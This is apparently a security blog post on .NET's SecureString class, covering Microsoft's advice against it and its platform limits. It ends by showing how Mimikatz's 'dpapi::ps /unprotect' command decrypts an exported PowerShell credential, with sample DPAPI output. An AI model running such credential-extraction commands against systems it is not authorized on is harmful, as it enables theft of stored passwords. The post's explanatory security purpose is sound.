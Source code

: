 > We don't recommend that you use the `SecureString` class for new development. For more information, see [SecureString shouldn't be used](https://github.com/dotnet/platform-compat/blob/master/docs/DE0001.md) on GitHub.
>
> [Microsoft Docs](https://docs.microsoft.com/en-us/dotnet/api/system.security.securestring?view=netframework-4.8)

There are a few reasons for this. The API's that SecureString uses underneath are Windows specific, which mean that now with .NET Core if you are using SecureString in another OS they won't be encrypted.

And as we saw, the name can be misleading. SecureString is to be used as an extra security mecanism, where you don't store sensitive data in Strings, making it much easier to clean from memory, and thus, shortening the time for exploitation.

The encryption is only a precaution so that if, for example, an application crashes and windows generates a memory dump, the content of password and other sensitive data is not written in plaintext to the logs.

I believe that this note from Microsoft is due to the limitations that SecureString has in .NET Core. I see no problem using it as an **extra** security layer, as long as is not used to provide the needed security.

### Other attack vectors

There are already a few attack vectors for Windows Crypto API. For example NSA just recently disclosed [a 0-Day](https://www.schneier.com/blog/archives/2020/01/critical_window.html) related with certificates.

I just wanted to create a different attack vector, specific for SecureStrings, so I came out with the technique described in the article..

[Mimikatz](https://github.com/gentilkiwi/mimikatz), which is an awesome tool, can [decrypt Powershell PSCredential](https://twitter.com/gentilkiwi/status/1152687433525407745?lang=ar) (which contains a SecureString) by getting the original password used to encrypt the data. Lets see a quick example on how to do it.

First we need the Powershell SecureString object.

```powershell
Get-Credential |Export-CliXML -path 'securestring.xml'
```

Now, after downloading mimikatz from [here](https://github.com/gentilkiwi/mimikatz/releases) and running, type the following command:

```powershell
dpapi::ps /in:PATH\_TO\_YOUR\\securestring.xml /unprotect

And here you have the output:

UserName: TheSecurityVault
Password: \*\*BLOB\*\*
  dwVersion          : 00000001 - 1
  guidProvider       : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
  dwMasterKeyVersion : 00000001 - 1
  guidMasterKey      : {49bf61cf-7898-45a4-92a0-012cb70d1fe2}
  dwFlags            : 00000000 - 0 ()
  dwDescriptionLen   : 00000002 - 2
  szDescription      :
  algCrypt           : 00006603 - 26115 (CALG\_3DES)
  dwAlgCryptLen      : 000000c0 - 192
  dwSaltLen          : 00000010 - 16
  pbSalt             : b70f39c018e17acda8c2a15fd0ef3c56
  dwHmacKeyLen       : 00000000 - 0
  pbHmackKey         :
  algHash            : 00008004 - 32772 (CALG\_SHA1)
  dwAlgHashLen       : 000000a0 - 160
  dwHmac2KeyLen      : 00000010 - 16
```